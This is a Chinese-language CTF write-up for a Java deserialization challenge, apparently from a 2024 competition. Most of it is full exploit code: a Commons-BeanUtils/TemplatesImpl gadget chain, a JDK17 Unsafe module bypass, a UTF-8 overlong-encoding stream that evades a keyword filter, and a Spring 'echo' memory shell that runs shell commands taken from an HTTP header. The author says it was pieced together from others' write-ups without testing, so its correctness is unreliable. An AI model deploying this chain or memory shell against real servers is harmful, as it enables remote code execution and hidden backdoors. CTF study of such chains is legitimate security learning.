


找半天找不到镜像了

黑盒测试题

# 代码分析

pom.xml文件是这样的

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.example</groupId>
  <artifactId>dfjk2024_ez_java</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>dfjk2024_ez_java</name>
  <url>http://maven.apache.org</url>

  <properties>
    <maven.compiler.source>17</maven.compiler.source>
    <maven.compiler.target>17</maven.compiler.target>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
  </properties>

  <dependencies>
    <dependency>
      <groupId>commons-beanutils</groupId>
      <artifactId>commons-beanutils</artifactId>
      <version>1.9.2</version>
    </dependency>

    <dependency>
      <groupId>org.javassist</groupId>
      <artifactId>javassist</artifactId>
      <version>3.29.2-GA</version>
    </dependency>

    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-web</artifactId>
      <version>5.3.20</version>
      <scope>provided</scope>
    </dependency>

    <dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>4.0.1</version>
      <scope>provided</scope>
    </dependency>
  </dependencies>

  <build>
    <plugins>
      <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-compiler-plugin</artifactId>
        <version>3.8.1</version>
        <configuration>
          <source>17</source>
          <target>17</target>
          <encoding>UTF-8</encoding>
          <compilerArgs>
            <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED</arg>
            <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED</arg>
            <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED</arg>
            <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.serializer=ALL-UNNAMED</arg>
            <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.dtm=ALL-UNNAMED</arg>
          </compilerArgs>
        </configuration>
      </plugin>
    </plugins>
  </build>
</project>

```



Commons-Beanutils 1.9+自带Commons-Collections3.2.1 ，并且题目过滤了org.apache字样

高版本JDK17，需要做一个Unsafe的模块绕过

直接打CBwithCC的链子

# POC编写

Evil恶意类

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

POC

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import sun.misc.Unsafe;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class POC {
    /*
     * CB链_with_CC：
     * PriorityQueue#readObject()->
     *               heapify()->
     *               siftDown()->
     *               siftDownUsingComparator()->
     *   BeanComparator#compare()->
     *    PropertyUtils#getProperty()->
     *      TemplatesImpl#getOutputProperties()->
     *                    newTransformer()->
     *                    getTransletInstance()->
     *                    defineTransletClasses()->
     *                    defineClass()->
     *                       加载类字节码
     * */
    public static void main(String[] args) throws Exception {
        bypassModule(POC.class);
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get("com.example.Evil");
        ctClass.setName("Evil"+System.nanoTime());

        byte[] code = ctClass.toBytecode();
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue priorityQueue = new PriorityQueue<Object>(2, beanComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        setFieldValue(beanComparator,"property","outputProperties");
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});

        serialize(priorityQueue);
        unserialize();
    }
    private static Unsafe getUnsafe() throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) unsafeField.get(null);
        return unsafe;
    }
    public static void bypassModule(Class clazz) throws Exception {
        Unsafe unsafe = getUnsafe();
        long offset = unsafe.objectFieldOffset(clazz.getClass().getDeclaredField("module"));
        unsafe.putObject(clazz, offset, Object.class.getModule());
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("POC.txt"));
        oos.writeObject(object);
        oos.close();
    }

    public static void unserialize() throws Exception{
        ObjectInputStream ois  = new ObjectInputStream(new FileInputStream("POC.txt"));
        ois.readObject();
        ois.close();
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

但是前面说了题目过滤了org.apache字样，可以结合之前的UTF-8 Overlong Encoding进行关键字绕过

把之前的脚本优化一下

包师傅的：

```java
package com.example;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

import static com.example.POC.bypassModule;

public class UTF8OverlongObjectOutputStream extends ObjectOutputStream {
    static{
        try {
            bypassModule(UTF8OverlongObjectOutputStream.class);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public UTF8OverlongObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    @Override
    protected void writeClassDescriptor(ObjectStreamClass desc) throws IOException {
        try {
            String name = desc.getName();
            writeShort(name.length() * 2);

            for (int i = 0; i < name.length(); i++) {
                char s = name.charAt(i);
                int b1 = 0xC0 | ((s >> 6) & 0x1F);
                int b2 = 0x80 | (s & 0x3F);

                write(b1);
                write(b2);
            }

            writeLong(desc.getSerialVersionUID());

            byte flags = 0;
            if ((Boolean) getFieldValue(desc, "externalizable")) {
                flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
                Field protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                int protocol = (Integer) protocolField.get(this);
                if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                    flags |= ObjectStreamConstants.SC_BLOCK_DATA;
                }
            } else if ((Boolean) getFieldValue(desc, "serializable")) {
                flags |= ObjectStreamConstants.SC_SERIALIZABLE;
            }
            if ((Boolean) getFieldValue(desc, "hasWriteObjectData")) {
                flags |= ObjectStreamConstants.SC_WRITE_METHOD;
            }
            if ((Boolean) getFieldValue(desc, "isEnum")) {
                flags |= ObjectStreamConstants.SC_ENUM;
            }
            writeByte(flags);

            ObjectStreamField[] fields = (ObjectStreamField[]) getFieldValue(desc, "fields");
            writeShort(fields.length);

            for (int i = 0; i < fields.length; i++) {
                ObjectStreamField f = fields[i];
                writeByte(f.getTypeCode());
                writeUTF(f.getName());
                if (!f.isPrimitive()) {
                    Method writeTypeString = ObjectOutputStream.class.getDeclaredMethod("writeTypeString", String.class);
                    writeTypeString.setAccessible(true);
                    writeTypeString.invoke(this, f.getTypeString());
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
            super.writeClassDescriptor(desc);
        }
    }

    private static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Class<?> clazz = obj.getClass();
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                if (field != null) break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        if (field != null) {
            field.setAccessible(true);
            return field.get(obj);
        }
        return null;
    }
}

```

记得给UTF8OverlongObjectOutputStream也做一个Unsafe模块绕过

所以我们的poc是

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import sun.misc.Unsafe;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class POC {
    /*
     * CB链_with_CC：
     * PriorityQueue#readObject()->
     *               heapify()->
     *               siftDown()->
     *               siftDownUsingComparator()->
     *   BeanComparator#compare()->
     *    PropertyUtils#getProperty()->
     *      TemplatesImpl#getOutputProperties()->
     *                    newTransformer()->
     *                    getTransletInstance()->
     *                    defineTransletClasses()->
     *                    defineClass()->
     *                       加载类字节码
     * */
    public static void main(String[] args) throws Exception {
        bypassModule(POC.class);
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get("com.example.Evil");
        ctClass.setName("Evil"+System.nanoTime());

        byte[] code = ctClass.toBytecode();
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue priorityQueue = new PriorityQueue<Object>(2, beanComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        setFieldValue(beanComparator,"property","outputProperties");
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});

        serialize(priorityQueue);
        unserialize();
    }
    private static Unsafe getUnsafe() throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) unsafeField.get(null);
        return unsafe;
    }
    public static void bypassModule(Class clazz) throws Exception {
        try{
            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(clazz.getClass().getDeclaredField("module"));
            unsafe.putObject(clazz, offset, Object.class.getModule());
        }catch(NoSuchFieldException e){
            e.printStackTrace();
        }
    }
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        UTF8OverlongObjectOutputStream oos = new UTF8OverlongObjectOutputStream(baos);
        oos.writeObject(object);
        oos.close();
        byte[] bytes = baos.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(bytes));
    }

    public static void unserialize() throws Exception{
        ObjectInputStream ois  = new ObjectInputStream(new FileInputStream("POC.txt"));
        ois.readObject();
        ois.close();
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



无回显不出网，再打一个 Spring echo 的内存马

# 无回显打Spring echo内存马

```java
package com.example;

import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Scanner;
import sun.misc.Unsafe;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class SpringEcho extends AbstractTranslet {
    private String getReqHeaderName() {
        return "Cache-Control-Hbobnf";
    }

    public SpringEcho() throws Exception {
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get((Object)null);
            Method getModuleMethod = Class.class.getDeclaredMethod("getModule");
            Object module = getModuleMethod.invoke(Object.class);
            Class cls = SpringEcho.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(cls, offset, module);
        } catch (Exception var9) {
        }

        this.run();
    }

    public void run() {
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();

        try {
            Object requestAttributes = this.invokeMethod(classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder"), "getRequestAttributes");
            Object request = this.invokeMethod(requestAttributes, "getRequest");
            Object response = this.invokeMethod(requestAttributes, "getResponse");
            Method getHeaderM = request.getClass().getMethod("getHeader", String.class);
            String cmd = (String)getHeaderM.invoke(request, this.getReqHeaderName());
            if (cmd != null && !cmd.isEmpty()) {
                Writer writer = (Writer)this.invokeMethod(response, "getWriter");
                writer.write(this.exec(cmd));
                writer.flush();
                writer.close();
            }
        } catch (Exception var8) {
        }

    }

    private String exec(String cmd) {
        try {
            boolean isLinux = true;
            String osType = System.getProperty("os.name");
            if (osType != null && osType.toLowerCase().contains("win")) {
                isLinux = false;
            }

            String[] cmds = isLinux ? new String[]{"/bin/sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = (new Scanner(in)).useDelimiter("\\a");

            String execRes;
            for(execRes = ""; s.hasNext(); execRes = execRes + s.next()) {
            }

            return execRes;
        } catch (Exception var8) {
            return var8.getMessage();
        }
    }

    private Object invokeMethod(Object targetObject, String methodName) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {
        return this.invokeMethod(targetObject, methodName, new Class[0], new Object[0]);
    }

    private Object invokeMethod(Object obj, String methodName, Class[] paramClazz, Object[] param) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        Class clazz = obj instanceof Class ? (Class)obj : obj.getClass();
        Method method = null;
        Class tempClass = clazz;

        while(method == null && tempClass != null) {
            try {
                if (paramClazz == null) {
                    Method[] methods = tempClass.getDeclaredMethods();

                    for(int i = 0; i < methods.length; ++i) {
                        if (methods[i].getName().equals(methodName) && methods[i].getParameterTypes().length == 0) {
                            method = methods[i];
                            break;
                        }
                    }
                } else {
                    method = tempClass.getDeclaredMethod(methodName, paramClazz);
                }
            } catch (NoSuchMethodException var12) {
                tempClass = tempClass.getSuperclass();
            }
        }

        if (method == null) {
            throw new NoSuchMethodException(methodName);
        } else {
            method.setAccessible(true);
            if (obj instanceof Class) {
                try {
                    return method.invoke((Object)null, param);
                } catch (IllegalAccessException var10) {
                    throw new RuntimeException(var10.getMessage());
                }
            } else {
                try {
                    return method.invoke(obj, param);
                } catch (IllegalAccessException var11) {
                    throw new RuntimeException(var11.getMessage());
                }
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}

```

这里因为没环境，大部分都是看着其他师傅的wp东拼西凑，所以也不敢保证文章准确度的问题，主要目的还是在参考学习吧

参考文章：

https://baozongwi.xyz/p/peak-geek-2024-ezjava/

https://exp10it.io/posts/dfjk-2024-preliminary-web-writeup/#easy_java

UTF-8 Overlong Encoding绕过：https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

高版本JDK利用Unsafe模块绕过：https://forum.butian.net/share/3748
